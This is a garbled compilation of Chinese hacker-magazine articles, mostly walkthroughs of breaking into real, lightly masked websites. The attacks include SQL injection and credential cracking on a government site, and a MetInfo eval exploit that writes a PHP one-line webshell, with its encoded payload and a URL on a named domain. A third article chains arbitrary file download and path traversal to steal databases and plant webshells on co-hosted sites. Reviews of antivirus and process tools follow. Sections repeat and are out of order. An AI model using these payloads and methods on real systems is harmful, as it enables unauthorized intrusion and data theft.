再拿X-Scan，我就不信扫不出个“漏洞”来！先来设置扫描参数，将在命令行窗口下PING对方域名得到的IP地址（61.xxx.xxx.163）输入到“指定IP范围”，接着在“全局设置”中将“开放服务”、“NT-Server弱口令”以及“漏洞检测脚本”全部选中（“踩点”得到的信息越详细越好，定点扫描不怕慢，就怕得不到想要的，呵呵），然后将“跳过没有响应的主机”设置为“无条件扫描”，差不多了，点击“确定”按钮开始扫描。十多分钟的漫长等待过程之后，我得到了X-Scan的扫描报告，真是大失所望——X-San侦察到的信息是：开放的端口只有21、53和80，基本没戏（如图3）；“漏洞数量”为0，用户名和空/弱口令一个也不存在。看来，对方还真不简单，防护非常到位，赞一个先！


## 二、再战叉城

### 三、遭遇bfpms

不过我当然不死心了，再试“流光”进行全方位扫描，结果与X-Scan基本上是大同小异，没得搞。难道，难道无路可走了吗？算了，还是在人家网站上随便逛逛吧，说不定能发现些重要线索呢！于是，我开始有针对性地“浏览”该网站的各分支信息，也算是缓解一下自己的紧张心情。若干杯茶工夫之后，我发现该网站有一个“科技特派员”链接，打开之后看到风格跟目标主站比较相似但又不太一样（颜色都换了），呵呵，难道在此会有转机？是不是在一个IP地址上挂有多个网站呢？如果是的话也可以剑走偏锋进行曲线渗透啊！但经过PING命令测试后我发现二者的IP地址并不一样！不过，既然关系这么亲密，再加上目前似乎也实在是没什么路可走了，我何不拿这个来“跑跑路”呢？

仍然是先检查一下是否存在注入漏洞，直接点击主页“最新动态”中的一条新闻记录，弹出的新闻页面链接（http://www.xxx.gov.cn/info_Conews.asp?id=630）显示正常的内容。在它的后面添加“ and 1=1”并回车，显示仍正常；再将“ and 1=1”修改为“ and 1=2”再次回车，这次虽然没直接提示出现什么什么错误，但是新闻的主体内容消失了——还是出现问题了（如图4）。简单的手工测试之后，我得到了答案：这个分支网站存在注入漏洞！还等什么？上“啊D”啊！一次打开熟悉的界面，不用扫描注入点（原因后面奉上），直接在“SQL注入检测”的“注入连接”中将刚才的新闻页面粘贴进去，然后点击后面的“检测”按钮：很快，“啊D”就检测出三个表段：“Manage User”、“user”和“book”；接着再点击后面的……

“检测字段”，出现“username”、“password”和“id”三项内容，呵呵，都是敏感度较高的字眼儿。三项全部选中后，继续点击后面的“检测内容”按钮，两分钟后，跑出来了：一个user是“admin”，password为“bfpms;79:<;@”，另一个user是“tiedan”，password为“5c6f7i”（如图5）。

在Google上以“啊D bfpms;79:<;@”作为搜索关键字，一搜，还别说，马上得到了答案！原来，这真是一套后台密码二次转换的加密小伎俩：“admin”这五个字母对应的就是“bfpms”五个字符，也就是说，“a”对应“b”（加1）、“d”对应“f”（加2）、“m”对应“p”（加3）、“i”对应“m”（加4）、“n”对应“s”（加5）。规律非常简单：第几位密码就在ASCII中顺序加上几，明白了这些再破解起来当然就容易多了，只要对照ASCII进行减法运算就可以查到对应的原密码了！前面的五位“bfpms”对应“admin”，后面的七位“;79:<;@”经过简单的对照，可以还原其密码为“5011204”，全部都是数字（像电话号码？其实就是！）现在我们得到了超级用户“admin”的密码应该是“admin5011204”，重新登录试一下，呵呵，果然顺利进入了后台管理界面（如图7）！“管理员账号管理”下非常清楚地显示着两个管理员账号admin和tiedan的重要信息，顺便看了下“铁蛋”的管理员密码，原来是“4a3b2c”，同样是被bfpms过了的。


重点当然是超级用户admin了，铁蛋——tiedan恐怕是个测试账号吧？且慢，它的密码怎么这么BT呢？“bfpms;79:<;@”，一点儿也不好记啊！强度倒是可以，字母、数字加特殊符号，呵呵，12位呢！管它呢，直接在网站主页的最右下角点一个名叫“管理进入”的按钮，还记得刚刚所说的不使用“啊D”进行注入点的扫描么？原因就在这儿，根本用不着费劲去猜解后台地址，人家为了“管理的‘方便’已经明晃晃地把登录入口放在这儿了（网管切忌如此做啊！）。在弹出的“后台管理系统登录”中，将“管理员账号：”和“管理员密码：”处分别填入“admin”和“bfpms;79:<;@”（如图6），然后信心满满地“啪”地敲一下回车——“登录系统”！谁知，人家马上回敬一个大灰脸儿：“您输入了错误的账号或口令，请再次输入！”晕，怎么回事呢？按理说，“啊D”不会骗人的，那问题空间出现在哪儿呢？我又把思路重新整理了一下，没发现什么异常，且慢，应该还是这个BT密码“bfpms;79:<;@”有问题！


因为怎么看这都不像是一个好记忆的密码，而且输入起来也很麻烦，是不是其中隐藏了什么呢？但左思右想也没想出来，还是问“谷歌”吧。

## 四、黎明之前

由于已被拿下的分支网站与主网站不在同一个IP地址上，因此检测到了这一步其实离目标还差很远，但毕竟这是成功的一步。回头再来仔细地看着主站，忽然发现在网站的最底端“技术支持”——“xxx信息研究所”的后面有一个联系电话：xxx-5011204。这串数字实在是太熟悉了，因为它就是刚才自己对照ASCII一个一个破解出来的密码的一部分啊！呵呵，看来这两个网站还真是有着千丝万缕的联系呢！照此推理，这个“xxx信息研究所”是同时为这两个网站做的技术支持，因此虽然主站暂时还未动之冰山一角，但这个技术支持者似乎在提示着我们什么——是不是网管的登录密码都与这个电话有关呢？

再次到主站上翻看新闻，不仅是最近的，更包括刚建站时的（2003年左右），最终查到了北网站共有三个管理员：hgf、nxkjt和xuxin（就是在每条信息发布的标题下面的“录入者”）。再根据它们各自出现的时间与频率，我将“hgf”锁定为最终目标，显然这是网管的姓名拼音首字母。那么，它的密码会不会就是自己的账户再加上这个电话号码呢？应该说，可能性非常大。正当自己感到看到了曙光之时，忽然发现了一个非常严重的问题——后台！主网站的后台登录地址还没找到呢！这可很关键，没有它，就算你知道了账户名和密码也白搭——没地方进啊！怎么办？

## 五、最后的冲刺

既然开始就用“啊D”扫描后台登录地址没找到（“啊D”也是将一些可能存在的后台登录地址逐一排查的），那只能是手工试一下了，很快就失望了：manage、login、denglu统统都试过了，均宣告失败。看来，警觉的网管已经更改了系统的默认路径信息，不过，他能改到哪儿去呢？也一定是改成一个他自己能够记得住的、见名知义的缩写吧？否则自己管理起来也是极度不方便的，不是么？此时的感觉真可以用“山穷水尽疑无路”来形容了，不过怎样才能“柳暗花明又一村”呢？

到了黎明之前的最黑暗时刻了，出路到底在哪儿？要不，查查它的源码？调用记事本打开网站的源码之后，我准备开始从头开始浏览，只是太长了，晕！先试试Ctrl+F组合键查找“manage”，我猜想这样的字眼儿应该会有效。果然，回车之后，光标定位于“xxxxxx_Manage/uploadfile/jpg/2010-10/20101028111953619.jpg”，是“xxxxx_Manage”，一定是！因为附近下面的好几个地方都是“xxxxx_Manage”（如图8）。


在浏览器的地址栏中构造“http://www.xxx.gov.cn/xxxxx_Manage/login.asp”，回车，终于出来了，果然是后台网站管理系统！虽然有验证码把关，但由于先前的准备工作做得比较足，再加上自己的英明判断，因此在此次试探了一个回合之后就把对方“拉下了马”——账户：“hgf”，密码：“hgf5011204”，与分析的完全吻合（如图9）。点击“确定”按钮之后，成功地登录进入后台管理系统（如图10），到此，该网站的生态大权终于拿下！


## 六、检测小结

在本次对特定目标的检测过程中，结果是可喜的！过程却是曲折的——对其分支网站的注入、破解还原出bfpms密码似乎还走了弯路，不过如果没有这个过程的话就不会联想到主站的账户密码会与技术支持电话号码关系会如此紧密。虽说网管防护工作做得不错，但可惜“百密难免一疏”，非常不经意的信息“录入者”和技术支持电话号码毁掉了整个“马奇诺防线”。试想一下，如果不与存在注入点的分支网站作“友情链接”，如果不显示技术支持的电话号码，如果将登录后台管理的入口地址再设置得隐蔽一些，如果将自己的密码后半部分换为自己的手机号码呢？结果还会是这样么？

# 采拓信息管理系统执行任意代码助小菜拿shell

Michael

作为小菜的我这天瞎逛，偶然之际看到了采拓管理系统：MetInfo企业网站管理系统采用PHP+Mysql架构，全站内置了SEO搜索引擎优化机制，支持用户自定义界面语言，拥有企业网站常用的模块功能（企业简介模块、新闻模块、产品模块、下载模块、图片模块、招聘模块、在线留言、反馈系统、在线交流、友情链接、会员与权限管理）。强大灵活的后台管理功能、静态页面生成功能、个性化模块添加功能、不同栏目自定义FLASH样式功能等可为企业打造出大气漂亮且具有营销力的精品网站。

官方介绍的和画一样，我们可不能沉浸在画中，我们的任务是测试安全。安全性可不像介绍的那样完美。存在漏洞的文件为\include\common.inc.php第69行的eval(base64_decode($allclass[0]))：执行任意base_decode加密过的代码。只要将$allclass[0]赋值为我们要执行的php的脚本即可。我们利用它写入一句话木马。

# 一个人的战争

```
php
fputs(fopen('./templates/test.php','w+'),'<?php eval($_POST[c]);?>')
```

wZW4oJy4uL3RlbXBsYXRlcy90ZXN0LnBocCcsJ3crJyksJzw/cGhwIGV2YWwoJF9QT1NUW2NdKTs/PicpIA==。下面给 $allclass[0] 赋值，在地址栏输入 `http://www.hrbtynz.com/include/common.inc.php?allclass[0]=...`，即可插入一句话木马。


下面打开一句话木马（如图3），在木马地址栏输入 `http://www.hrbtynz.com/templates/test.php`，密码填入 `c`（与 `$_POST[]` 中参数一致），上传大马并提交，可见上传成功（如图4）。


好了下面我们进行实战演示这个漏洞，先在搜索引擎查找相关站点，选择一个目标（如图1），把要执行的命令进行编码（如图2），再在参数中替换为编码后的内容即可。

小菜我测试好几个站都存在这个漏洞，又于们还不赶快去尝试下。希望大家抱着学习安全的态度检测网站，千万不要搞破坏，否则要喝下午茶的。

> （文章中涉及到的工具已收录在光盘中）

# 和北大青鸟某地方学校网站的坎坷较量

本文写的是一次曲折的拿下北大青岛某地方学校网站 shell 的过程。

看了黑客文档案2010年第10期一位朋友拿下北大青岛某网站的文章，我再次萌生了找个北大青岛的网站练练手的想法。其实以前我也尝试过检测了几个地方学校的网站，简单看下没有注入漏洞就放弃了。看了文章拿站的过程，方法并不难，所以我也决定找个网站来练练手。

## 一、确定目标

我首先到北大青鸟的主站看了一下，发现网站用的是独立服务器，虽然服务器所在的IP绑定了3个域名，但发现都是指向同一个网站·官方主站。看来旁注不用想了。简单看了下，意料之中不存在简单的注入漏洞，也没找到网站的后台，本人小菜一个，遂放弃拿主站shell的想法。主站拿不下，北大青鸟在各个省都有校区，这些校区很多都有自己的网站，估计安全性做的不如主站好，说不定能让我拿到shell。查找各个校区的网站很简单，点北大青鸟主站上的“校区”就可以按地区查询到地方校区的网站，比如选择北京市后就会列出北大青鸟所有在北京市的校区，并且有各个校区网站地址的链接（如图1）。


我随便选择了一个校区的网站http://www.xxxaccp.com/作为目标。（为了不必要的麻烦，我用xxx替换了目标网站地址中的几个字符）

## 二、信息收集

确定了目标网站，先来收集一下目标网站的一些基本信息。打开目标网站首页，发现页面上的链接都是静态页面，通过查看首页源文件，初步判定网站用的是aspx的网站管理系统，猜测可能是通过后台生成的静态页面。存在robots.txt文件，但文件中没出现任何目录和文件，没有利用价值。通过搜索“site:xxxaccp.com inurl:aspx”没有发现任何带参数的链接，注入就不用想了，但搜出了网站的后台为http://www.xxxaccp.com/Server/Login.aspx，用几个弱口令尝试登录后台，没有成功。

## 三、开始旁注

根据收集到的信息，直接从目标网站下手太困难，考虑旁注。在ip.wen.la反查了一下，发现目标网站所在的服务器有60个网站（其实不只60个，我这里疏忽了），满足旁注的条件。剩下的59个网站总有安全性做的不好的，我就不信拿不到一个shell。于是一个网站一个网站的挨个检测是否存在低级漏洞，是否存在注入漏洞，在网站地址后面加admin和manage，看是否出来后台登录页面；如果找到后台用常见弱口令尝试登录；看网站是否存在robots.txt这个文件。在这过程中遇到一个可以用万能密码进后台的，遇到一个用admin、admin弱口令进去后台的，但都因为后台功能太简单不能获得webshell。好不容易找到一个注入点猜解出了管理员的用户名和密码，但MD5加密的密码破解不出来。总之，粗略的旁注了一遍，没有拿到任何一个网站的shell。

## 四、找到任意文件下载漏洞

经过上面的查找没有结果后，我决定找下有没有网站存在任意文件下载漏洞。在一个网站上存在“资料下载”的链接，点开后有很多供下载的文件，当我把鼠标移动到一个下载文件上时，看到的下载地址为http://www.xxxitalnc.com/down.asp?url=/UploadFile/KT500-M Milling CNC System Operation Manual.pdf（还是为了不必要的麻烦，我用xxx代替了网址中的几个字符），我觉得有戏，很可能存在任意文件下载漏洞，因为下载文件的地址是通过一个变量url指定的，如果对url变量没有过滤或过滤不好就会出现任意文件下载漏洞。来验证下，构造如下地址http://www.xxxitalnc.com/down.asp?url=down.asp，在浏览器中访问，出现了下载down.asp文件的对话框（如图2），说明确实存在任意文件下载漏洞。


任意文件下载漏洞还是很有用的，利用的好可能下载到网站的数据库文件，找到管理员的用户名和密码进后台，后台还能拿shell，这是最理想的情况了。要下载数据库首先要知道数据库的路径和名称，数据库的路径和名称对于采用asp程序的网站大多数一般保存在conn.asp文件中（少部分保存在config.asp等文件中），conn.asp有的直接在网站根目录下，有的在网站目录下的inc目录下，可以先尝试下是否在上面两个目录下，如果不在找到后台登录文件的话可以下载后查看源代码查找数据库连接文件然后再下载数据库。

为了省事，先来猜一下。假设存在任意文件下载漏洞的网站http://www.xxxitalnc.com/的数据库连接文件为网站根目录下的conn.asp，访问http://www.xxxitalnc.com/conn.asp，提示“程序运行出错。请与系统管理员联系。”，好像确实存在这个文件，只是直接访问报错了（如图3）。


# 一个人的战争

再访问 `http://www.xxxitalnc.com/conn1.asp`，提示“无法找到该页”（如图4）。

访问后出现了“`D:\www\web\xxxitalnc.com\wwwroot\data\HN_kaitong.asp does not exist`”的错误提示（如图7）。


说明“程序运行出错。请与系统管理员联系。”不是找不到文件的错误提示，证明确实在网站根目录下存在 `conn.asp` 这个文件。下载它，构造下载地址为 `http://www.xxxitalnc.com/down.asp?url=conn.asp`，在浏览器中访问后出现下载 `conn.asp` 的对话框（如图5）。


把下载回来的 `HN_kaitong.asp` 改名为 `HN_kaitong.mdb`，用 Microsoft Office Access 2003 打开，在 admin 表中找到了管理员用户名 `Lawer` 和密码 `72ff7fa7b7678b6d`（图9），但密码暂时无法破解，且后台入口也未找到。

下载 `conn.asp` 后用记事本打开，发现了如下代码（如图6）。

```
asp
dim Conn
dim dbpath
dbpath=server.MapPath("../data/HN_kaitong.asp")
```


说明数据库文件为 `HN_kaitong.asp`，在 `data` 目录下，知道了数据库路径和名称就可以下载数据库。我第一次构造的地址为 `http://www.xxxitalnc.com/down.asp?url=/data/HN_kaitong.asp`，

明显地址构造有误，因为 `conn.asp` 在网站根目录下，数据库文件相对于它在上级目录下的 `data` 文件夹中，正确构造地址应该是：`http://www.xxxitalnc.com/down.asp?url=../data/HN_kaitong.asp`。

网站的绝对路径，这个有很大的作用，下面会提到。用新构造的地址把数据库文件下载了下来（如图8）。

## 五、大胆尝试

一时不知道怎么办了。静下心来想了想，我又注意到了那个任意文件下载漏洞和爆出的那个网站绝对路径上。再次看了下那个路径`D:\www\webxxxitalnc.com\wwwroot\data\HNkaitong.asp`，可以知道存在任意文件下载漏洞的网站的根目录在服务器上的绝对路径为`D:\www\web\xxxitalnc.com\wwwroot`。因为是虚拟主机，大胆猜测服务器上大部分网站的绝对路径有一定规律，比如域名为`www.xxx.com`的网站的绝对路径名为`D:\www\web\xxx.com\wwwroot`。单知道别的网站的绝对路径貌似没什么用，但如果可以遍历别的网站下的所有文件再配合任意文件下载漏洞就大有用处了，你可以下载别的网站已经知道路径和文件名的任意文件，可以下载网站的数据库，找到管理员的用户名和密码后进后台。要想利用需要满足两个条件。

- 1. 网站的绝对路径存在规律性
- 2. 存在遍历所有网站的漏洞

这两个条件我不知道满不满足，我假设这两个条件满足，来验证一下我的假设。在`ip.wen.la`的查询页面中找到了一个网站`http://www.xxxex.com.cn/`，采用的asp程序，后台目录为`admin`，数据库连接文件为`inc`目录下的`conn.asp`，构造下载地址为`http://www.xxxitalnc.com/down.asp?url=../../xxxex.com.cn/wwwroot/inc/conn.asp`，在浏览器中访问，激动人心的下载文件对话框出现了（如图10）。证明了我上面的两个假设是成立的！


图10

下载`conn.asp`后发现数据库为`Data/buy#2buy#cndata.asa`，构造下载地址`http://www.xxxitalnc.com/down.asp?url=../../pimex.com.cn/wwwroot/inc/Data/buy%232buy%23cndata.asa`，在浏览器中访问时却提示文件不存在，构造的地址没错啊，去掉地址中的`inc`目录，地址变为`http://www.xxxitalnc.com/down.asp?url=../../xxxex.com.cn/wwwroot/Data/buy%232buy%23cndata.asa`时竟然可以下载数据库了（要对#进行url编码，变成`%23`）（如图11）。


图11

在数据库中找到了后台管理员的用户名`admin`和密码`9a0f39b2e2b26750`，在`http://www.md5.com.cn/`破解了出来，结果为`23990588`，然后登录了后台（如图12）。后台添加商品的地方有`ewebeditor`，但已经被阉割了，不能获得`webshell`。


图12

## 六、继续碰壁

用任意文件下载漏洞把能下载数据库的网站的数据库都下载了一遍（还下载了一个289M的数据库文件！），也进了几个网站的后台，但无奈网站后台功能太简单，都没有获得`webshell`。我也尝试过利用得到的网站后台管理员密码作为ftp密码，网站域名作为ftp用户名登录服务器的ftp，但没有成功。

## 七、出现转机

好像现在不知道该怎么办了。在我再次把`ip.wen.la`列出的目标网站同服务器上的网站检测了一遍之后，才发现网页下面有如下说明“提示：只显示了部分域名。如果要查看全部域名，点这里。”我晕个去，我以为显示了全部域名呢，原来只显示了部分域名啊（如图13）。


图13

# 一个人的战争

点开链接后发现要看全部内容需要交钱成为会员，我穷小菜一个，没有钱给它。这时候我想起了好朋友路人甲给我的一个查旁注的网站地址 http://www.yougetsignal.com/tools/web-sites-on-web-server/，由于查询速度比较慢，平时不怎么用，但它可以免费显示一个服务器上的所有域名，在查得目标网站所在服务器上绑定了110个域名，比在 ip.wen.la 显示的多了50个（如图14）。

找不到上传后的文件，被杀了？重新上传一个 aspx 文件，内容为 test，还是上传不成功，说明已经获得 shell 的网站目录下不允许上传 .aspx 文件，此路不通。


图14


图16

希望多出了的50个网站中有让我拿到 webshell 的。继续旁注刷在出来的网站，继续利用任意文件下载漏洞下载网站的数据库，又进了一个网站的后台，在这个后台看到了期待已久的数据备份功能（图15），上传一个包含一句话木马的图片文件，通过数据库备份得到了一个 webshell http://www.xxtcss.cn/Databackup/123.asp（如图16）。通过这个 shell 可以遍历目标网站目录下的文件了（如图17）。

目标网站是 aspx 程序的，必在网站根目录下存在配置文件 web.config，通过已经获得的 shell 下载后发现目标网站用的也是 Access 数据库，数据库文件名为 AccpDB_BackUP.mdb，在网站根目录下的 App_Data 目录下，下载后找到了管理员的用户名和密码，并且密码没有经过加密（如图18）。挂上 vpn 后登录了目标网站的后台，但无奈的是后台上传任何文件都提示“上传目录不存在。”（图19），不能上传文件，还是不能获得目标网站的 shell。


图15


图17

本来以为都到这步了，目标网站的 shell 可以信手拈来了，写一个 asp 一句话木马到目标网站根目录下，写入不成功，尝试了目标网站根目录下的几个子目录，都没有写入权限。觉得 aspx 文件的权限会大点，说不定对目标网站的目录有写权限，尝试传一个 aspxspy 到已经获得 shell 的网站目录下，提示上传成功后却……


图18

# 一个人的战争

图19

示和显示，也不知道上传成功没有，难道又不能利用？我发现这个页面还有创建文件夹的功能，看能不能利用，输入123，点“Create Folder”后123文件夹居然创建成功了（如图21）。

通过列目录发现在MyFreeTextBox目录下多了一个文件夹。

图21

### 八、终偿所愿

虽然目前还没有得到shell，但我收集到的信息也越来越多了。利用已经获得的别的网站的一个shell的列目录功能挨个查看目标网站目录下的文件夹和文件，发现了一个kindeditor文件夹，是一个编辑器，找到了上传文件的页面，但上传文件时仍然提示“上传目录不存在。”，不能上传。我在MyFreeTextBox目录下发现了一个文件ftb.imagegallery.aspx，文件名中的ftb吸引了我，难道这个文件里保存了ftp的用户名和密码？通过http://www.xxxitalnc.com/MyFreeTextBox/ftb.imagegallery.aspx访问，打开的页面如图20。

图20

图22

好像可以上传文件，我上传了一个图片文件，没有任何提示和显示。

# 一个人的战争

images，新创建的文件夹123就在images目录下，双击新建的123文件夹来到123目录下，再次上传一个图片，这次上传成功了（如图22）。

直接上传一个.asp格式的asp一句话木马asp.asp到123文件夹下，虽然看不到缩略图，但是通过列表目录发现文件上传成功了，访问http://www.xxxitalnc.com/MyFreeText-Box/images/123/asp.asp成功得到了期待已久的shell（如图23）。

图23

shell已经拿到，目标已经达成，和北大青鸟某地方学校网站的较量就告一段落了。提权小菜我就不提了。拿到shell后回过头来看拿shell的过程，其实最后拿shell的方法非常简单，但找到这个方法的过程却一波三折，非常曲折。通过这次拿shell练手也告诉我，现在如果想拿一个网站，直接通过注入或通过弱口令进后台就拿到shell几乎已经不可能了，这时候就需要你多试识别的方法，多找找到的漏洞，比如任意文件下载漏洞；再就是要有耐心，不要遇到一点困难就放弃，如果我中途放弃也就不会有本文了。

# 可牛杀毒真叫硬牛

天涯衰草

自年初小红伞等免费杀毒软件进入中国市场后，各种各样的免费杀毒软件也就相继出现在了我们面前，就在5月25日的晚上，一款名为“可牛免费杀毒”的软件又隆重登场了，这是继360推出免费的杀毒软件后，国内又一款免费使用的杀毒软件，那么它到底都有什么样的功能和特色呢？保证在无法连接互联网的时候通过本地杀毒引擎对磁盘中的文件进行扫描分析，一旦发现病毒后，点击“立即清除”按钮，就可以对病毒进行清除操作了。

## 一、安装软件

首先我们从可牛杀毒的网站（sd.keniu.com）下载最新版的安装程序，安装程序大约有72M大小，这和我们常用的其它杀毒软件差不多。在进行软件安装的时候，它会自动分析系统的安全状况，这一点和金山卫士等安全工具非常的相似。安装完成后就会看到蓝色的操作界面以及和金山卫士云查杀功能一样的界面布局，用户们可以非常方便的进行操作，如图1。通过打开的程序界面，我们可以了解到可牛杀毒比360多出了漏洞修复和专杀工具等选项，还可以看到软件自动更新病毒库信息，同时还会对系统中的漏洞进行扫描和分析，一旦发现系统存在漏洞的话，就会弹出窗口来提醒用户。

图2

图1

图3

## 二、病毒扫描

可牛杀毒为用户提供了三种扫描方式，即“快速扫描”、“全盘扫描”和“自定义扫描”，如果是第一次使用这款软件的话，推荐大家选择“全盘扫描”。由于软件使用了双引擎进行木马病毒的分析，因此在进行分析的时候可以看到两个进度窗口，其中左边的是云安全引擎，而右边的是本地杀毒引擎，如图2。也就是说软件首先会通过云安全引擎对扫描的文件进行分析，如果没有分析出病毒信息，就再通过本地杀毒引擎进行分析，这样就可以利用云安全引擎大大的减少磁盘文件的分析时间，也可以保证在无法连接互联网的时候通过本地杀毒引擎完成查杀。

## 三、系统防护

可牛杀毒默认采用了三种不同的实时防护模式，即“超强保护模式”、“双杀软模式”和“轻巧模式”，点击软件主界面中的“实时保护”就可以看到了。软件默认采用的是“轻巧模式”，这种模式只能对系统起到基本的保护，但软件对系统的占有率却非常的低。如果我们的系统中还安装有其它的杀毒软件，那么为了避免和它们之间可能产生的冲突，大家最好是选择其中的“双杀软模式”。当然要想获得最全面的安全防护，就可以把按钮拖到最上方选择“超强保护模式”，由于这种模式会占用比较大的系统资源，因此软件会弹出一个提示窗口询问用户是否开启。

启，如果确定要使用“超强保护模式”的话，点击提示窗口中的“开启超强模式”按钮即可，如图3。

漏洞修复”，然后在“补丁保存设置”中选择“不保存补丁安装源文件”，在下次修复时删除补丁包”就可以了，如图7。

## 四、漏洞修复

选择程序主界面窗口中的“修复漏洞”，软件就会自动分析当前系统的漏洞情况，还会显示出和这些漏洞相关的各种信息等。同时可牛杀毒也会根据漏洞的严重程度，将漏洞进行分类并通过颜色进行区分。通常情况下，软件会自动选择“严重”和“重要”的补丁，如图4，我们只需要点击窗口下方的“立即修复”按钮，就可以在窗口上方看到一个进度条，从中可以看到漏洞补丁文件的下载速度。由于软件采用了P2P协议进行传输，所以补丁文件的下载速度非常快。下载完成后软件就会自动安装这些补丁文件，安装完成后我们也可以重新扫描来进行确认。

图5

图4

图6

## 五、软件设置

前面我们介绍了可牛杀毒的主要功能，如果用户想要更好的使用这款软件，可以根据自己的需要进行自定义设置。点击程序主界面窗口最右上角的“设置”，在弹出的设置窗口中选择左侧的“基本设置”，由于软件默认只对程序文件进行扫描，所以我们可以在“需要扫描的文件类型”中选择“所有文件”并勾选“进入压缩包查毒”，这样就可以更好的对系统中的文件进行扫描分析了，如图5。

如果我们开启了超强保护模式的话，就可以选择设置窗口中的“高级防御”，这是因为该模式下默认只开启了文件实时保护功能，我们可以根据自己的要求来选择开启邮件防护、网页防护、主动防御等，如图6。点击文件实时防护后面的“详细设置”按钮，可以将启发分析设置成“高度”，不过设置的启发级别越高，误杀的可能性也就越大。可牛杀毒自带的主动防御技术，可以检测键盘记录器、隐藏驱动安装等可疑的活动。

我相信很多人都和我一样，在修复了大量的安全补丁后，系统空间的占用就会越来越大，所以我们要及时删除下载的补丁文件，从而有效的节省被占用的磁盘空间。点击窗口左侧的“漏洞修复”，然后在“补丁保存设置”中选择“不保存补丁安装源文件”，在下次修复时删除补丁包”就可以了，如图7。

图7

## 六、小结

通过对病毒样本文件名的对比，我们可以得知，可牛杀毒使用的是卡巴斯基的杀毒引擎以及贝壳安全推出的云安全引擎，因此可牛杀毒确实要比先前的360杀毒好得多。不过由于可牛杀毒现在还处于测试阶段，因此软件可能还存在一些或多或少的小问题。

问题，比如超强模式占用系统资源比较大，而且暂时也没有右键杀毒的相关功能等。不过作为一款免费的杀毒软件，它终究是给我们提供了一种全新的使用选择。

> （文章中涉及到的可牛杀毒软件，已经收录在了光盘中）

## 柏同的变化，不同的感受

这天上网的时候，发现“金山清理专家”推出了新版本，本以为只是简单的进行了升级，但下载安装后才发现，这个版本可以说是“今非昔比”，无论是从软件的操作界面，还是相关的操作功能都发生了明显的变化，所以本文我们就来感受一下，“金山清理专家”新版本的不同之处。

进行木马的分析，而“自定义扫描”则需要先选择想要扫描的目录后，才可以进行病毒扫描分析操作。

## 一、软件的安装

由于最新版本的“金山清理专家”目前还处于公开测试阶段，因此我们暂时还只能从金山的论坛来进行下载。“金山清理专家”在安装完成后，可以看到新版本的命令栏从左侧移到了软件操作界面的正上方工具栏中，而且软件的功能也从以前的针对流氓软件，转到了现在针对各种各样的病毒和木马程序。首次运行“金山清理专家”时，软件会对系统进行安全评估，评估的项目包括了启动项、恶意插件、上网残留等，如图1。不过软件放弃了传统的评分方式，而是采用了星号来进行系统安全的显示。

## 二、木马查杀

上面我已经提到，“金山清理专家”的功能已经发生了转型，再加上金山公司不久前刚刚发布了使用云安全技术的软件，所以云安全技术也被成功的移植到了最新版的清理专家中。我们点击软件工具栏中的“木马云查杀”，在出现的界面中可以看到“快速扫描”、“全盘扫描”和“自定义扫描”三个选项，如图2。前面两个选项不需要进行任何设置，直接点击后就会自动进行木马的分析，而“自定义扫描”则需要先选择想要扫描的目录后，才可以进行病毒扫描分析操作。

这里我们直接点击“快速扫描”按钮，不过在进行扫描前最好查看一下右下角，确认软件是否已经连接上了云安全服务器，只有成功的连接上云安全服务器，才可以有效的进行病毒木马的分析操作。通过扫描分析发现了多处系统威胁，点击软件界面右下方的“立即处理”按钮，如果扫描出的病毒或木马正在运行着，软件就会提醒我们重新启动系统后再进行删除操作，如图3。该功能不仅可以清除病毒木马，还可以对系统存在的异常项目进行分析，一旦发现系统存在异常项目，就会立即对其进行修复还原的操作。

## 三、漏洞修复

### 嗯、其它功能

目前无论是网页挂马还是黑客入侵，首先都是从系统最新的安全漏洞入手的，所以安全专家也一再地告诫普通用户，要及时修复系统中的安全漏洞。而进行系统漏洞的修复，正好是金山清理专家的强项。我们点击工具栏中的“修复漏洞”按钮，在弹出的窗口中软件就会自动分析系统中是否存在漏洞，而且也会显示出漏洞的严重程度、补丁名称、补丁描述等信息。

除了上面介绍的这些功能外，金山清理专家还包括了开机加速、插件清理、垃圾清理等功能。我们都知道，过多的启动项会造成系统的启动速度过慢，所以要对启动项进行优化，但是对于哪些启动项可以优化却不是太清楚，通过清理专家来操作就简单的多了。选择软件主界面中的“电脑加速”，再选择“开机加速”，软件就会自动分析出系统和应用程序的启动项，通过“启动建议”列表我们可以看到清理专家对每个启动项的建议，包括了维持现状、建议开机启动、建议禁止启动等。

图4

金山清理专家根据漏洞的严重程度，会将分析出来的“严重”级别的补丁默认进行选择，因为这些漏洞是最容易被木马病毒利用的。除此之外，软件还列出了“重要”和“可选”的漏洞。我们选择想要进行修复的安全补丁后，点击窗口下方的“立即修复”按钮，如图4，这时软件就会跳转到一个下载窗口，从中可以看到漏洞补丁文件的下载进度。下载完成后软件就会自动安装补丁文件，安装完成后还将要求用户重新启动系统。

图5

> （文章中所用到的金山清理专家3.5 Beta已收录到光盘中）

## 菜鸟的进程管理工具fk

XP系统中命令行下的tasklist.exe和taskkill.exe是分开的两个小程序，使用起来命令参数也比较多，于是我便将这两个小程序的功能合并成了一个程序fk.exe，以方便小菜们进行系统管理的操作，在CMD命令行下直接输入fk.exe或“fk.exe /?”就可以列出程序的帮助信息了，如图1。

## 1、枚举系统进程

我们输入`fk.exe -L`或`fk.exe -l`（参数区分大小写）都可以获得当前系统的进程名与PID信息，`-l`参数主要用于快速查看进程PID，而`-L`能较为详细地枚举出当前系统的具体路径，如图2，这是为了克服任务管理器和tasklist无法查看进程名具体路径而特意加入的一个参数。

图1

c:\windows目录下复制一个木马服务端程序为svchost.exe，那么在任务管理器中还是显示svchost.exe。

图2

图3

## 2、查杀进程

执行`fk.exe -k pid`命令，可以根据进程的PID来杀死该进程，进程PID可以通过“fk -l”来获得。为了方便操作，我们还可以使用“fk.exe -K name”通过进程名来杀死进程，但这需要对进程名比较熟悉。比如我在电脑中使用VC编写程序时，经常会出现msdev.exe编译假死的情况，这时候直接执行`fk.exe -K msdev.exe`就可以杀死进程了，如图3所示。在浏览网页时，经常会碰到某一个网站弹出N多的广告，导致打开了很多的IE窗口，这时候是最烦人的，我们使用`fk.exe -KA iexplore.exe`命令就可以同时结束掉多个进程了，如图4所示。

图4

## 3、挂起与释放进程

